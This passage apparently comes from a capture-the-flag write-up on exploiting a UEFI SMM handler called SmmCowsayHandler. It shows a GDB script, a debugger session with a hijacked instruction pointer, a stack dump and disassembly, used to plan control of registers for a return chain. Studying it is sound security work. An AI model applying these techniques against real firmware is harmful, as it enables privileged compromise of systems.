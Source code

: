 
And now we can start the exploit and attach GDB using the following script:

```  
$ cat script.gdb  
target remote :1234

source gdb_plugin.py  
add-all-symbols

break *(SmmCowsayHandler + 0x302)  
continue  
```

```  
$ gdb -x script.gdb  
...  
Breakpoint 1, 0x0000000007ee92c5 in SmmCowsayHandler
(CommBufferSize=<optimized out>, CommBuffer=0x69bb030, ...  
(gdb) i r rax  
rax            0x4141414141414141  4702111234474983745

(gdb) si  
0x4141414141414141 in ?? ()

(gdb) x/100gx $rsp  
0x7fb6a78:      0x0000000007ee92c7      0x0000000007ffa8d8  
0x7fb6a88:      0x0000000007ff0bc5      0x00000000069bb030  
0x7fb6a98:      0x0000000007fb6c38      0x0000000007fb6b80  
...  
...  
...  
0x7fb6b48:      0x00000000069bb018      0x0000000013131300  
0x7fb6b58:      0x0000000014141414      0x0000000015151515  
```

It seems like R13 (except the LSB), R14 and R15 somehow got spilled on the
stack  
at `rsp + 0xe0`. After returning from the `call rax` the code in  
`SmmCowsayHandler` does:

```  
(gdb) x/30i SmmCowsayHandler + 0x302  
  0x7ee92c5 <SmmCowsayHandler+770>:     call   rax  
  0x7ee92c7 <SmmCowsayHandler+772>:     test   bl,bl  
  ... a bunch of useless stuff ...  
  0x7ee92f7 <SmmCowsayHandler+820>:     add    rsp,0x40  
  0x7ee92fb <SmmCowsayHandler+824>:     xor    eax,eax  
  0x7ee92fd <SmmCowsayHandler+826>:     pop    rbx  
  0x7ee92fe <SmmCowsayHandler+827>:     pop    rsi  
  0x7ee92ff <SmmCowsayHandler+828>:     pop    rdi  
  0x7ee9300 <SmmCowsayHandler+829>:     pop    r12  
  0x7ee9302 <SmmCowsayHandler+831>:     pop    r13  
  0x7ee9304 <SmmCowsayHandler+833>:     ret  
```
